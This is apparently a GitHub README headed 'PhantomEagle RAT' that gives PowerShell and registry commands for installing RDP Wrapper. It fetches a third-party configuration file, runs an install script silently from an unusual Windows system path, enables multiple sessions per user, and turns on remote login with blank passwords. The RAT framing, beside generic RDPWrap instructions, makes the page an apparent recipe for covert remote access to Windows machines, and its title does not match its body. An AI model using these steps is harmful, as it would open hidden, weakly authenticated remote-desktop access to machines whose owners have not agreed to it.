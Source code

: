 # PhantomEagle RAT
Evokes an unseen but powerful presence



# RDPWrap Setup and Configuration

Steps to install, configure, and customize RDP Wrapper for enabling multiple user sessions on Windows using the latest `.ini` file and registry settings.

## Installation Instructions

1. **Download the RDPWrap ZIP file:**

   Use the following PowerShell command to download the ZIP file from the official GitHub repository:

   ```powershell
   iwr -uri https://github.com/stascorp/rdpwrap/releases/download/v1.6.2/rdpwrap-v1.6.2.zip -outfile rdpwrap.zip
   ```
2. **Expand the ZIP file:**

   ```
   Expand-Archive -Path rdpwrap.zip -DestinationPath .
   ```

3. **Run the installation script silently:**
   Use the following PowerShell command to install RDPWrap without opening a new window:
   
   ```powershell
   Start-Process -FilePath "C:\Windows\systemapps\install.bat" -ArgumentList "/S" -NoNewWindow -Wait
   ```

## Update the Latest INI File

To ensure RDPWrap works with the latest Windows updates, download the latest `rdpwrap.ini` file:
   ```powershell
   Invoke-WebRequest https://raw.githubusercontent.com/sebaxakerhtc/rdpwrap.ini/master/rdpwrap.ini -outfile "C:\Program Files\RDP Wrapper\rdpwrap.ini"
   ```

## Configuration Settings

### Set User Session Behavior

To allow multiple sessions per user, modify the Terminal Server registry settings:
   ```bash
   reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
   ```

### Allow Blank Passwords

To enable login with blank passwords, change the following registry key:
   ```bash
   reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v LimitBlankPasswordUse /t REG_DWORD /d 0 /f
   ```

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
